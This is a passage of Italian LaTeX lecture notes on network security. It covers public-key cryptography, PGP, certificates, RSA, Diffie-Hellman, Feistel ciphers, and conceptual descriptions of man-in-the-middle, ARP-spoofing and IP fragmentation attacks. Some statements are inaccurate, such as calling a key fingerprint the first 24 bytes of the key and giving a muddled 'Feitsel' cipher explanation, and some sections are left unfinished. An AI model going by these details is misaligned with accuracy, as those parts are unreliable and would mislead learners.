				\end{itemize}
				\item Le chiavi private si devono tenere segrete (vitale che A sia unico possessore di $Pub_{A}$ così per B)
				\item La chiave pubblica può essere pubblicata.
			\end{itemize}
			\textbf{Caratteristiche}:
			\begin{itemize}
				\item Ciò che è cifrato con chiave pubblica può essere decifrato solo con la rispettiva chiave privata.
				\item Computazionalmente impossibile risalire ad una chiave privata da una pubblica.
				\item Se A cifra un messaggio utilizzando la chiave pubblica di B solo B potrà decifrarlo con la sua chiave privata. \textbf{Si ottiene segretezza}.
			\end{itemize}
			\textbf{Non è necessario concordare preventivamente una chiave di cifratura comune.}
		
			\textit{Cifratura a chiave pubblica/privata \ref{fig:16}}\\
			\begin{figure}[h!]
				\centering
				
\includegraphics[scale=0.60]{img/pubpriv.PNG}
				\caption{Cifratura a chiave pubblica/privata \label{fig:16}}
			\end{figure}\\
		
		\subsection{Firma digitale}
			\textbf{Le chiavi pubbliche e private sono invertibili}: A può utilizzare la sua chiave privata per criptare un messaggio che può essere decriptato utilizzando la relativa chiave pubblica. Il messaggio risulta dunque \textbf{decifrabile da chiunque} (la chiave è appunto pubblica) dunque \textbf{non garantisce la segretezza}. Si puà tuttavia \textbf{garantire l'autenticazione e la non ripudiabilità dei dati}: visto che A è l'unico in possesso di $Priv_{A}$ chiunque decifra il messaggio con la sua chiave pubblica \textbf{è sicuro che il messaggio proviene da quest'ultimo: FIRMA DIGITALE.}\\
			\newline
			\subsubsection{Problemi}
				Un attacco che possiamo compiere contro questo tipo di cifratura è il \textbf{Man in the middle}:
				\begin{itemize}
					\item A invia a B $Pub_{A}$
					\item E intercetta il messaggio e scambia $Pub_{A}$ con $Pub_{E}$
					\item B riceve la chiave $Pub_{E}$ convinto che sia quella di A e cifra il suo messaggio con $Pub_{E}$.
					\item E intercetta il messaggio, lo decifra, e lo cifra nuovamente stavolta utilizzando $Pub_{A}$ e lo invia ad A che non si accorge di niente.
					\item A riceve il messaggio che però può essere letto e/o modificato da E
				\end{itemize}
				Questo tipo di attacco è sempre possibile quando A e B non conoscono le rispettive chiavi, che dunque dovranno essere scambiate tramite canale sicuro. Si presenta lo \textbf{stesso problema di HMAC e chiave simmetrica}: \textbf{l'unica differenza è che per sicuro non intendiamo segreto ma semplicemente autenticato}.
			\subsubsection{Soluzioni: Fingerprint}
				Una fingerprint è una piccola parte della chiave pubblica, i primi 24 byte.
				\begin{itemize}
					\item E’ altamente improbabile che due chiavi pubbliche diverse abbiano i primi
					24 byte in comune.
					\item E’ più facile distribuire una fingerprint che una chiave pubblica. Ad
					esempio la si può usare come signature nella posta elettronica o la si può
					inserire in un biglietto da visita.
					\item Se ricevete posta elettronica da qualcuno da anni e lui usa la sua
					fingerprint nella signature, il giorno che avete bisogno di utilizzare la sua
					chiave pubblica lui ve la invierà e potrete verificare se la chiave che avete
					ricevuto corrisponde alla fingerprint che lui ha usato in passato.
				\end{itemize}
				
			\subsubsection{Soluzioni: Keyserver}
				Sono \textbf{server nei quali è possibile effettuare l'upload delle chiavi pubbliche}. Tuttavia il server non assicura la corrispondenza della chiave pubblica all'identità dichiarata. Si possono inserire info come nome e email, dunque è facile tramite motore di ricerca trovare la chiave che vogliamo (BUSH)
			\subsubsection{Soluzioni: Web of Trust}
				\textbf{Rete di contatti attraverso la quale i partecipanti certificano l'identità altrui.} Il principio di fondo è il seguente: se A conosce personalmente B può certificare che $Pub_{B}$ ovvero garantire che una certa chiave appartenga effettivamente a B. C, conoscendo A, ha una garanzia maggiore sulla corrispondenza effettiva tra $Pub_{B}$ e B stesso. Ogni utente ha interesse che la propria chiave pubblica sia certificata dal più alto numero di persone possibile all'interno della rete. \textbf{Le certificazioni sono realizzate utilizzando la propria chiave privata per firmare la chiave pubblica altrui}. Esempio: 
				\begin{itemize}
					\item A genera una sua coppia di chiavi PubA e PrivA . Nella c’e’ scritto che la chiave appartiene ad A. chiave pubblica
					\item A va da B, gli mostra un documento e gli consegna la fingerprint della chiave.
					\item B scarica la chiave da un keyserver, controlla la fingerprint.
					\item B a quel punto può firmare con la propria PrivB la chiave pubblica PubA .
					\item B carica la chiave firmata sul keyserver.
				\end{itemize}
			\subsubsection{In pratica: PGP}
				\textbf{Pretty Good Privacy} è stato il primo programma che permetteva di scambiarsi chiavi pubbliche/private e inviarsi messaggi privati. Il governo americano osteggiava la sua distribuzione al pari di tutto ciò che utilizzava la crittografia. Nasce come codice sorgente poi chiuso e fatto divenire prodotto commerciale.\\
				Per ovviare a questo, nasce GPG GNU su licenza aperta (GNU GPL).
				\begin{itemize}
					\item c\textbf{ome creare chiavi}: gpg –gen-key
					\item \textbf{come esportare chiavi}: gpg –export –armor C93F299D
					\item \textbf{come usare un keyserver:}
					gpg –keyserver pgp.mit.edu –send-key C93F299D
					\item \textbf{come cifrare messaggi}: gpg –encrypt -r C93F299D file
				\end{itemize}
		\subsection{Certificati}
			Le \textbf{WOT} sono comode (si basano sul numero di partecipanti, e sulla fiducia reciproca) ma in contesti formali abbiamo bisogno di garanzie aggiuntive, affinchè una chiave pubblica sia associata ad una persona. Abbiamo bisogno di \textbf{terze parti riconosciute}: \textbf{Enti certificatori}.\\
			Questi enti \textbf{garantiscono l'associazione tra chiave pubblica e persona fisica}. L'ente ha una sua coppia di chiavi pubblica/privata, gli utenti conoscono quella pubblica. La certificazione avviene come per le chiavi GPG (?????) ma si utilizza un formato diverso (\textbf{X.509}). \\
			\textbf{Come funziona?}
			\begin{itemize}
				\item L'utente A genera coppia di chiavi pubblica/privata
				\item A invia all'ente la chiave pubblica e un documento
				\item L'ente restituisce la chiave pubblica ad A firmata con la propria chiave privata. \textbf{Il contenitore in cui si sposta tale chiave è un certificato}.
				\item La procedura si fa una sola volta, alla creazione della chiave
				\item L'ente dunque non conosce la chiave privata, \textbf{dando così maggiore garanzia all'utente}. In casi più semplici la CA fornisce coppia di chiavi e certificato direttamente ad A.
				\item Quando un utente B deve parlare con A gli chiede il suo certificato.
				\item Dal certificato estrae la chiave pubblica di A e verifica che la firma digitale dell'ente sia corretta (\textbf{utilizzando la chiave pubblica dell'ente certificatore.}) B è sicuro dell'identità di A.
			\end{itemize}
			La firma digitale ha lo stesso valore probatorio della firma su carta.\\
			Attraverso i certificati otteniamo un accurato controllo degli accessi.\\
			
			\textit{Certificati \ref{fig:17}}\\
			\begin{figure}[h!]
				\centering
				
\includegraphics[scale=0.60]{img/certificati.PNG}
				\caption{Certificati \label{fig:17}}
			\end{figure}\\
					
			\subsubsection{Certificati per tutto}
				Lo stesso modello può essere applicato in \textbf{qualsiasi contesto} anche senza il bisogno di contattare una CA ufficiale.\\
				Introduciamo l'esempio di un'azienda che ha i seguenti servizi:
				\begin{itemize}
					\item posta elettronica
					\item sito web
					\item rete interna a cui collegare pc
				\end{itemize}
				Si può creare una \textbf{CA dedicata} con la sua coppia di 
				chiavi pubblica/privata ed un certificato che è \textbf{autofirmato} (la CA dunque si \textbf{autocertifica}). In questo modo si possono rilasciare certificati a tutti gli utenti in modo tale che essi inviino solo posta firmata digitalmente. Ogni volta che un utente riceve (invia ????) una mail questa verrà autenticata e cifrata. Inoltre possiamo fornire i browser di certificati così che i server accetteranno le connessioni solo da macchine autorizzate. Quando un portatile si connette alla rete, prima di essere abilitato a ricevere e inviare traffico, dovrà autenticarsi con un server utilizzando un certificato valido.\\
				Un CA autocertificata aumenta il livello di sicurezza, ma dobbiamo sottolineare che se per qualche motivo il server su cui risiedono le chiavi pubbliche e private della CA verrà compromesso, allora \textbf{verrà compromessa la sicurezza di tutta la rete}.
			\subsubsection{Certificate Revocation List: CRL}
				Un utente ha perso un portatile con un certificato valido ? Uno dei server con certificato viene compromesso? Un utente si comporta male ? \textbf{Dobbiamo riuscire ad invalidare i certificati già rilasciati} di fatto revocandoli.\\
				La CRL è \textbf{una lista di certificati revocati} dall'ente certificatore. Per fare ciò la CA tiene una lista di certificati non più validi, distribuita \textbf{firmata con la propria chiave privata}. Un utente deve essere in grado di \textbf{scaricare la CRL più aggiornata} tramite servizio offerto dall'infrastruttura di rete. Le CRL sono proprio il motivo per il quale abbiamo bisogno di un'autorità di terzi, poichè introducono un elemento di complicazione in più.
			\subsubsection{WOT di Thawte (tybyca)}
			 	COMPLETARE
			\subsubsection{Confronti e sistema misto}
				 
				 \textit{Confronti \ref{fig:18}}\\
				 \begin{figure}[h!]
				 	\centering
				 	
\includegraphics[scale=0.60]{img/confronto.PNG}
				 	\caption{Confronti \label{fig:18}}
				 \end{figure}\\
				 
				 
				 Le due tecniche vengono utilizzate insieme per garantire performance e sicurezza:
				 \begin{itemize}
				 	\item $A \rightarrow B$: certificato A, $C_{A}$
				 	\item $A \leftarrow B$: certificato A, $C_{B}$
				 	\item $A \rightarrow B$: A genera un numero casuale R e invia tale numero cifrato con il certificato ci $C_{B}$
				 	\item $A \leftarrow B$: B genera un numero casuale P  e trasmette tale numero cifrato con il certificato di $C_{A}$
				 	\item si genera una chiave segreta  $K = hash(P\oplus R) $
				 \end{itemize}
			 	Una volta generato K possiamo utilizzare quella chiave per cifrare, decifrare e autenticare tutti i messaggi tra A e B. In questo modo abbiamo vantaggi dal punto di vista computazionale.
		\subsection{Teoria: principi di crittografia}
			Introduciamo alcuni concetti matematici chiave che stanno alla base della criptografia.\\
			\begin{itemize}
				\item \textbf{Campo $Z_{n}$}: l'insieme dei numeri interi minori di n, dato n numero primo è un campo, considerando le operazioni di somma e prodotto.
				\item definiamo l'operazione di modulo \textbf{mod} come come il resto della divisione di a per n, dati a,n numeri interi.
				\item per un qualsiasi elemento del campo $Z_{n}$ esiste un unico $a^{-1}$ tale che $aa^{-1} = 1mod(n)$, ovvero \textbf{esiste un solo inverso moltiplicativo}.
			\end{itemize}
			\textbf{Funzione Toziente di eulero}:
			\begin{itemize}
				\item 	$\phi(x)$ è il numero di interi positivi minori di x e primi relativi con x.
				\item si dimostra che se p,q sono numeri primi $x=pq$ allora
				$$\phi(x)= (p-1)(q-1) $$
				\item Notate che per calcolare $\phi(x)$ per un qualsiasi x è computazionalmente oneroso, addirittura impossibile per x sufficientemente grandi.
				\item se $x = pq$ e conosco almeno uno tra p e q, invece è possibile
			\end{itemize}
			\textbf{Teorema di Eulero}:
			\begin{itemize}
				\item per a,x primi tra loro si ha che $a^{\phi(x)} = 1modx$
			\end{itemize}
			 
			 \textit{Confronti \ref{fig:euler}}\\
			\begin{figure}[h!]
				\centering
				
\includegraphics[scale=0.60]{img/euler.PNG}
				\caption{Confronti \label{fig:euler}}
			\end{figure}\\
		
			\subsubsection{RSA}
			\begin{itemize}
				\item Dati p,q primi con $n = pq$
				\item Dato $m<n$
				\item se e,d sono inversi moltiplicativi mod $\phi(n)$ ovvero $ed = 1mod\phi(n)$ allora:
			\end{itemize}
		
			
			
			
			\begin{itemize}
				\item Dato $m^{e}=c$ è computazionalmente oneroso ricavare m, per numeri grandi impossibile. \textbf{Si può cifrare esponenziando per e e decifrare esponenziando ancora per d}
				\item dunque la coppia e,n è la chiave pubblica mentre la coppia d,n è la chiave privata.
				\item per valori di e,n non piccoli (maggiori di 1kbit) non esistono algoritmi che permettano:
				\begin{itemize}
					\item dati e,n ricavare d
					\item dato $m^{e} $ ricavare m
				\end{itemize}
			\end{itemize}	
		
			La sicurezza di RSA si basa tutta sull'impossibilità di derivare $\phi(n)$ o d da e,n. Entrambi questi problemi hanno complessità equivalente a quella di fattorizzare n nei suoi fattori primi. Si è riuscito a fattorizzare numeri da 332 a 663 bit (con un costo in tempo di mesi), pertanto si ritiene sufficiente una grandezza di 1024 bit per le chiavi. \\
			\textbf{La sicurezza di RSA dipende tutta dallo stato dell'arte nel campo degli algoritmi di fattorizzazione e nel campo della potenza computazionale.}\\
			Un attacco possibile è \textbf{timing attack} che viene portato in atto nella fase di esponenziazione, ovvero nella fase di decriptazione eseguita tramite la chiave privata. Si basano sul fatto che le operazioni in hardware hanno costi differenti se il bit usato per l'esponenziazione è 0 o 1. \textbf{Possiamo dunque risalire alle chaive privata solo osservando i tempi di esecuzione della CPU per le operazioni di decodifica}. L'attacco è laborioso ma proveniente da una direzione inattesa. Per ovviare a ciò le implementazioni di RSA introducono dei ritardi casuali nell'esponenziazione per rendere impredicibili i tempi di esecuzione.
			Altri algoritmi che utilizzano problemi computazionalmente intrattabili:
			\begin{itemize}
				\item Diffie-Hellman genera una chiave segreta condivisa a partire da due chiavi pubbliche senza bisogno di scambiare alcun segreto
				\item ElGamal schema basato su logaritmi discreti
				\item DSA schema a firma digitale basato su logaritmi discreti.
			\end{itemize}
			\subsubsection{Diffie Hellman}
				Si basa sull'intrattabilità del logaritmo discreto.\\
				Dato un numero primo p si definisce radice primitiva di p un numero $\alpha$ per cui vale:
				$$\alpha modp \neq \alpha^{2} modp \neq \alpha^{3} modp \neq ... \neq \alpha^{i} modp  $$
				$$i<p $$
				Nello scambio entrambi A e B posseggono due parametri noti p,$\alpha$ ciascuno genera un numero casuale $X_{a}$ e $A_{b}$
				\begin{enumerate}
					\item A invia a B $Y_{a}= \alpha^{X_{a}} modp$
					\item B riceve $Y_{a}$ ed invia ad A $Y_{b}=\alpha^{X_{b}}modp$
					\item A calcola $K_{a} = Y_{b}^{X_{a}}modp = (\alpha^{X_{b}})X^{a}modp= \alpha^{X_{b}*X{a}}$
					\item B calcola $K_{b} = Y_{a}^{X_{b}}modp = (\alpha^{X_{a}})X^{b}modp= \alpha^{X_{a}*X{b}}$
					\item Risulta $K_{b} = K_{a}$ dunque A e B si sono scambiati una chiave segreta \textbf{senza avere nessuna credenziale comune}
 				\end{enumerate}	
 				\textbf{Un attaccante che vede passare solo $Y_{a}$ e $Y_{b}$ non è in grado di calcolare il logaritmo discreto quindi non può ricavare la chiave.}\\
 				Diffie Hellman non è sicuro contro attacchi \textbf{man in the middle}:
 				\begin{itemize}
 					\item D genera $X{d1}$ e $X{d2}$ e le chiavi pubbliche corrispondenti $Y{d1}$ $Y{d2}$
 					\item A invia $Y{a}$ a B
 					\item D intercetta il messaggio e trasmette invece $Y{d1}$ a B
 					\item B riceve $Y{d1}$ e calcola $K_{b}= Y_{d1}^{X_{b}}modp$
 					\item B invia $Y{b}$ ad A
 					\item D intercetta $Y{b}$ e invia invece $Y{d2}$ ad A
 					\item A calcola $K_{a}= Y_{d2}^{X_{a}}modp$
 				\end{itemize}
 				
 				\textit{Diffie-Hellman \ref{fig:19}}\\
 				\begin{figure}[h!]
 					\centering
 					
\includegraphics[scale=0.60]{img/diffie.PNG}
 					\caption{Diffie-Hellman \label{fig:19}}
 				\end{figure}\\
 			
 			\subsubsection{Algoritmi a chiave simmetrica: One time pad}
 				\begin{enumerate}
 					\item Dato un testo in chiaro m di n bit si scegli una chiave k generata attraverso un generatore perfetto di numeri casuali
 					\item La cifratura è $c=m\oplus k$
	 				\item ad ogni trasmissione si deve cambiare k
 				\end{enumerate}
 				Con questo algoritmo si scorrela completamente c da m, con il risultato che è \textbf{impossibile effettuare crittanalisi}. Di contro abbiamo che dobbiamo trasportare una chiave k su canale sicuro (della stessa lunghezza di n). In linea teorica questo algoritmo garantisce la \textbf{sicurezza più elevata}, ma nella pratica è \textbf{difficile da utilizzare}
 			
 			\subsubsection{Algoritmi a chiave simmetrica: Cifratura di Feitsel}
 				La cifratura di Feitsel è un algoritmo di sostituzione ideale che mappa un messaggio in chiaro di 2 bit in un messaggio cifrato di 2 bit \textbf{utilizzando una mappa statica}.\\
 				
 				\textit{Mappa statica Feitsel \ref{fig:20}}\\
 				\begin{figure}[h!]
 					\centering
 					
\includegraphics[scale=0.60]{img/staticmap.PNG}
 					\caption{Mappa statica Feitsel \label{fig:20}}
 				\end{figure}\\
 			
 				Se il messaggio è lungo 2 bit e la mappa $2^{2}$ righe, \textbf{l'attaccante può tentare solo attacchi di forza bruta}, non esiste correlazione statica tra testo in chiaro e testo cifrato. Quando il messaggio è più lungo si cifrano blocchi di 2 bit per volta.\\
 				Per risultare sicuro i blocchi devono essere di grandi dimensioni, ma in tal caso \textbf{la mappa diventa molto grande} ($n=64 \rightarrow$ $64x2^{64} = 2^{70} bit$). Procedimento:
 				\begin{enumerate}
 					\item Dalla chiave K si generano una serie di sottochiavi $K_{i}$ con una funzione generatrice
 					\item Si eseguono una serie di fasi di cifratura che hanno come parametro $K_{i}$ e il risultato della fase precedente.
 					\item Tutti gli algoritmi a blocchi come AES utilizzano questo schema di cifratura
 				\end{enumerate}
				
				\textit{Cifratura Feitsel \ref{fig:21}}\\
				\begin{figure}[h!]
					\centering
					
\includegraphics[scale=0.60]{img/feit.PNG}
					\caption{Cifratura Feitsel \label{fig:21}}
				\end{figure}\\
			
			\subsubsection{Altri algoritmi : DA FINIRE}
			
		\subsection{Esempio: organizzazione rete certificati}
			La rete è composta da:
			\begin{itemize}
				\item Una rete di computer fissi per i vostri utenti
				\item Un server per applicativi web necessari ai vostri utenti
				\item Un server per la posta elettronica
				\item Dei possibili utenti remoti, roadwarrior.
			\end{itemize}
			
			\textit{Topologia di rete \ref{fig:22}}\\
			\begin{figure}[h!]
				\centering
				
\includegraphics[scale=0.60]{img/rete.PNG}
				\caption{Topologia di rete \label{fig:22}}
			\end{figure}\\
		
			I \textbf{servizi} che la rete offre sono:
			\begin{itemize}
				\item non sia possibile collegarsi alla rete interna se non utilizzando i client fissi
				della rete,
				\item che ad ogni client della rete possa effetturare l’accesso solo personale
				autorizzato
				\item che i servizi del vostro webserver siano accessibili solo dai terminali della
				rete
				\item che la posta elettronica sia certificata
				\item che gli utenti possano inviare e ricevere posta elettronica in modo sicuro
				\item che tutto quello che può fare un utente dal proprio terminale interno lo
				possa fare anche un utente roadwarrior
			\end{itemize} 
			Abbiamo bisogno di una \textbf{CA}, ovvero una macchina il più possibile isolata dalla rete, non accessibile
			dall’esterno, non accessibile direttamente dagli utenti.
			Su questa macchina generate un certificato master, protetto da password
			che utilizzerete per generare tutti i certificati dei servizi. Possibilmente, in
			un luogo fisicamente inaccessibile (cassaforte?) dovrete tenere un
			backup del certificato.
			Se la vostra rete è contenuta potete usare un programma come tinyca
			per creare le chiavi degli utenti e dei servizi, che poi distribuite nei singoli
			terminali, altrimenti avrete bisogno di un’interfaccia web accessibile dagli
			utenti.
			Le CRL della CA devono essere pubblicate in un luogo liberamente
			accessibile a cadenza regolare.
			
	\section{Attacchi}
		\subsection{Attacchi al mezzo fisico}
			\begin{itemize}
				\item Dos: interruzione di collegamento o jamming
				\item attacchi di wiretapping 
				\item sniffer hardware e sniffer in reti broadcast
			\end{itemize}
			\subsubsection{Jamming}
				Il jamming \textbf{è l'atto di disturbare volutamente le comunicazioni radio (wireless)} facendo in modo che ne diminuisca il rapporto segnale/rumore, indice di chiarezza del segnale, tipicamente trasmettendo sulla stessa frequenza e con la stessa modulazione del segnale che si vuole disturbare. \\
				Il jamming sul mezzo fisico si può fare solo in caso in cui il mezzo fisico lo permetta, come nel caso di reti wireless o reti wired con cavi non schermati. Anche se il jamming è difficile basta far fallire la ricezione di un bit per invalidare il checksum e far scartare un pacchetto.
		\subsection{Attacchi a livello di collegamento}
			\begin{itemize}
				\item DoS: flood di pacchetti,generazione di collisioni
				\item spoofing indirizzi MAC
				\item ARP-Spoofing
			\end{itemize}
			\subsubsection{Dos al livello di collegamento}
				Un attacco di flood può essere mirato alla saturazione della banda. Se il mezzo è condiviso si possono non rispettare i tempi di timeout e creare numerose collisioni, o in alternativa mantenere il canale sempre occupato. Si può mascherare il flood inviando pacchetti con indirizzo mittente modificato.
			\subsubsection{ARP-Spoofing}
				L'ARP è un protocollo di IPv4 utilizzato per mappare indirizzi IP a indirizzi MAC in una rete locale
				Introduciamo in primo luogo il protocollo ARP (\textbf{Address Resolution Protocol}):
				\begin{enumerate}
					\item la macchina 192.168.2.51 vuole raggiungere l'indirizzo 192.168.2.52 nella stessa sottorete, per farlo deve inviare un frame all'indirizzo MAC corrispondente
					\item \textbf{Se non conosce tale MAC} allora invia una richiesta ARP in broadcast chiedendo che la macchina 192.168.2.52 risponda notificando il suo MAC address
					\item Tale macchian risponde con una ARP-reply specificando il suo indirizzo MAC
				\end{enumerate}
				
				\textit{ARP-Spoofing \ref{fig:23}}\\
				\begin{figure}[h!]
					\centering
					
\includegraphics[scale=0.60]{img/arp.PNG}
					\caption{Certificati \label{fig:23}}
				\end{figure}\\
				
				\textit{ARP-Spoofing: algoritmo \ref{fig:24}}\\
				\begin{figure}[h!]
					\centering
					
\includegraphics[scale=0.60]{img/algoarp.PNG}
					\caption{ARP-Spoofing: algoritmo  \label{fig:24}}
				\end{figure}\\
				
				Lo scopo di un \textbf{attacco ARP-Spoofing} è intercettare il traffico che passa tra due macchine su una rete con switch. L'attaccante fa parte della rete ma non si trova nel path tra le due macchine vittime.	
				\begin{enumerate}
					\item Eve manda messaggi ARP-Reply diretti all'indirizzo MAC di Alice, dichiarando che l'IP di Bob corrispondente al suo indirizzo MAC.
					\item Eve manda messagi ARP-Reply anche all'indirizzo MAC di Bob, dichiarando che l'IP di Alice corrisponde al suo indirizzo MAC
					\item Il traffico TCP di Bob viene inviato ad Eve che può leggerlo, eventualmente modificarlo, e inviarlo ad Alice. Alice penserà che è stato Bob ad inviarli quel traffico TCP. 
				\end{enumerate}
		\subsection{Attacchi al livello di rete}
			\begin{itemize}
				\item DoS: flood di pacchetti, smurf
				\item covert channels, fragmentation attacks, source routing
				\item spoofing indirizzo IP
			\end{itemize}
			\subsubsection{Fragmentation attack}
				Il protocollo IP permette di spezzare un pacchetto in più frammenti nel caso questo debba attraversare sottoreti che hanno MTU minore della lunghezza del pacchetto stesso. \\
				
				\textit{Header IP \ref{fig:25}}\\
				\begin{figure}[h!]
					\centering
					
\includegraphics[scale=0.60]{img/iphead.PNG}
					\caption{Header IP \label{fig:25}}
				\end{figure}\\
				
				In generale gli attacchi a frammentazione hanno lo scopo di superare i controlli fatti sugli header dai firewall stateless ( al giorno d'oggi i firewall sono tutti statefull).
				
				\textit{Header TCP \ref{fig:26}}\\
				\begin{figure}[h!]
					\centering
					
\includegraphics[scale=0.60]{img/tcphead.PNG}
					\caption{Header TCP \label{fig:26}}
				\end{figure}\\
			
				\textit{Fragmentation Attack 1 \ref{fig:27}}\\
				\begin{figure}[h!]
					\centering
					
\includegraphics[scale=0.60]{img/frag.PNG}
					\caption{Fragmentation Attack 1 \label{fig:27}}
				\end{figure}\\
			
				\textit{Fragmentation Attack 2 \ref{fig:28}}\\
				\begin{figure}[h!]
					\centering
					
\includegraphics[scale=0.60]{img/frag2.PNG}
					\caption{fragmentation Attack 2 \label{fig:28}}
				\end{figure}\\
				
				I firewall normalmente sono configurati per bloccare i tentativi di connessione dall'esterno della rete verso porte maggiori di 1024 dei server. Per fare ciò scartano i pacchetti TCP con il flag SYN = 1 nell'header. Tuttavia \textbf{devono lasciare passare pacchetti che sono rivolti verso porte alte ma che fanno parte di una connessione aperta dall'interno della rete all'esterno}.\\
				Un pacchetto IP è un wrapper di un pacchetto TCP, dunque la possibilità di frammentare in piccole parti un pacchetto IP introduce una vulnerabilità per l'header TCP che dunque può essere spezzato, permettendo di superare il controllo del flag SYN.\\
				Un \textbf{Tiny fragmentation attack} sfrutta questa possibilità:
				\begin{itemize}
